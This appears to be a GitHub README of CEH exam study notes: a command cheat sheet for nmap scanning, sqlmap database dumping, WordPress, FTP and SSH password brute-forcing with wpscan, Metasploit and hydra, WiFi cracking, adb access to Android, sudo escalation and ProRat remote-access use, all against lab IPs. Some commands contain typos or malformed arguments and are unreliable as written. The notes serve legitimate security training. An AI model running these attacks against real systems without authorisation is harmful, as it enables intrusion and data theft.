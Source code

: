 # CEH-Notes

> sudo netdiscover -r 192.168.1.0/24

## Resource Sharing
> **Wget:**<br/>
> Single file: wget http://192.168.0.101:8000/filename -O C:\path\to\destination\filename<br/>
> All files: Navigate to PasteFolder > wget -r -np -nd -A "*" http://192.168.0.101:8000/folder/<br/>
> <br/>
> **SCP:**<br/>
> Start ssh service.<br/>
> Linux: service ssh start<br/>
> Windows: Settings>Apps>Optional Features>Add Feature>Install OpenSSH Server | Powershell:Start-Service sshd<br/>
> File: scp /path/to/local/file username@192.168.0.104:/path/to/destination<br/>
> Folder: scp -r /path/to/local/folder username@192.168.0.104:/path/to/destination/folder<br/>
><br/>
> **Python HTTP Server**<br/>
> cd OpenSharingFolder<br/>
> python3 -m http.server 8000<br/>
> Open VM, navigate to http://192.168.0.101:8000<br/>


## NMAP
> Best <br/>
> nmap -sn 192.168.1.0/24 <br/>
> nmap -A -T4 -p- 192.168.1.0/24 <br/>
> nmap -sC -sV -Pn -T4 -vv -p- 192.168.1.0/24 <br/>
> nmap --script vuln -Pn -T4 -p- 192.168.1.0/24 <br/>
> <br/>
> Firewall/IDS, if opened <br/>
> nmap -sS -v -p- 192.168.1.0/24  <br/>
> nmap -f -p- 192.168.1.0/24 <br/>
> <br/>
> UDP Scan <br/>
> nmap -sU --top-ports 25 -p- 192.168.1.0/24 <br/>

## SQLMap <br/>
> sqlmap -r req.txt -dbs<br/>
> sqlmap -r req.txt -D DBName --tables<br/>
> sqlmap -r req.txt -D DBName --tables --columns<br/>
> sqlmap -r req.txt -D DBName --dump<br/>

## WordPress <br/>
> <b>WP SCAN</b><br/>
> wpscan --url http://192.168.0.1 <br/>
> wpscan --url http://192.168.0.1 -e u    #User Enum <br/>
> wpscan --url http://192.168.0.1 --enumerate u <br/>
> wpscan --url http://192.168.0.1 --usernames /home/user.txt --passwords /home/pass.txt  <br/>
> wpscan --url http://192.168.0.1 -u john --passwords /home/pass.txt  <br/>

> <b>METASPLOIT</b> <br/>
> msfconsole : <br/>
> use auxilliary/scanner/http/wordpress_login_enum <br/>
> show options <br/>
>	set PASS_FILE /home/attacker/Desktop/Wordlist/password.txt <br/>
>	set RHOSTS 192.168.0.1  (target ip) <br/>
>	set RPORT 8080          (target port) <br/>
>	set TARGETURI http://192.168.0.1:8080/ <br/>
>	set USERNAME admin <br/>

## HYDRA <br/>
> hydra -L /home/user.txt -P /home/pass.txt 192.168.0.1 ftp <br/>
> hydra -L /home/user.txt -P /home/pass.txt ftp://192.168.0.1 <br/>
> hydra -L /home/user.txt -P /home/pass.txt 192.168.0.1 ssh <br/>
> hydra -L /home/user.txt -P /home/pass.txt ssh://192.168.0.1 <br/>

## STEGANOGRAPHY <br/>
> <b>SNOW (Windows)</b><br/>
> <b>Hide:</b>SNOW -C -m "Hey Hacker" -p "hack" abc.txt abcd.txt<br/>
> <b>Extract:</b>SNOW -C -p "hack" abcd.txt<br/>

> <b>OpenStego (Windows)</b><br/>
> Click on Extract Data<br/>
> Select Stego file<br/>
> Select output folder<br/>
> Enter password & CLick on Extract Data Button<br/>

> <b>StegHide (Linux)</b><br/>
> <b>Hide: </b>steghide embed -cf cover.png -ef secret.txt -p 1234 <br/>stegcrack
> <b>Extract:</b> steghide extract -sf steg.file<br/>
> Enter Password & Hit Enter<br/>

> <b>Stegcracker (Linux)</b><br/>
> stegcracker steg.file <br/>

## CRYPTOGRAPHY <br/>
> <b>HashCalc (Windows)</b><br/>
> Open File<br/>
> Click on Calculate Button<br/>

> <b>VeraCrypt (Windows)</b><br/>
> Select any Volume A,B,D,E<br/>
> Select Encrypted Folder<br/>
> Click on mount button<br/>
> Enter Password<br/>
> Open File Manager<br/>
> Open Newly created drive and open secret.txt file<br/>

> <b>Crack Hash</b><br/>
> [Hash Analyzer](https://www.tunnelsup.com/hash-analyzer/)<br/>
> [Hashes](https://hashes.com/en/decrypt/hash)<br/>
> [CrackStation](https://crackstation.net/)<br/>

> <b>BCTextEncoder (Windows)</b><br/>
> Paste Hash Value<br/>
> Click on Decode<br/>
> Enter Password<br/>

> <b>Cryptool (Windows)</b><br/>
> **RC4:**<br/>
> Open File<br/>
> Encrypt/Decrypt > Symmetric(modern) > RC4<br/>
> Enter bit length (EX:14)<br/>
> Click on Decrypt<br/>
>
> **DES(ECB):**<br/>
> Open File<br/>
> Encrypt/Decrypt > Symmetric(modern) > DES(ECB)<br/>
> Select bit length if given in qus<br/>
> Click on Decrypt<br/>

## WireShark <br/>
> For credentials: http.request.method == POST<br/>
> For DoS Attack:<br/>
>                 Statistics > IPv4 Statistics > Source and Destination Address<br/>
>                 Apply Filter:- tcp.flags.syn == 1 and tcp.flags.ack == 0<br/>

## Android <br/>
> **Normal** <br/>
> nmap -p -sV -p 5555 <br/>
> adb connect 192.168.0.1:5555 <br/>
> adb shell <br/>
> cd sdcard <br/>
> cat secret.txt <br/>
>  <br/>
>  **ELF**<br/>
> cd sdcard/scan <br/>
> sudo adb pull /sdcard/scan/ <br/>
> ent evil.elf <br/>
> sha384sum evil.elf <br/>

## FQDN  <br/>
> nmap -p 389 -sV -iL ip.list <br/>
> nmap -p389 -sV 192.168.0.1 <br/>
> FQDN: DC.pentester.team <br/>

## WIFI  <br/>
> aircrack-ng cap.file<br/>
> aircrak-ng -w wordlist.txt cap.file<br/>
> aircrak-ng -b 2a:25:zd:54:48:as-w wordlist.txt cap.file<br/>

## Privilege Escalation<br/>
> Login in ssh<br/>
> sudo -l<br/>
> sudo -i<br/>

## Malware<br/>
> **ProRat**<br/>
> Enter Victim IP<br/>
> Click on connect<br/>
> Enter Password<br/>
> Click on Search Files "Searching for *.txt"<br/>
> Click on File Manager<br/>
> Move to Secret Directory & Download the secret file<br/>

> **ELF with  DIE**<br/>
> 

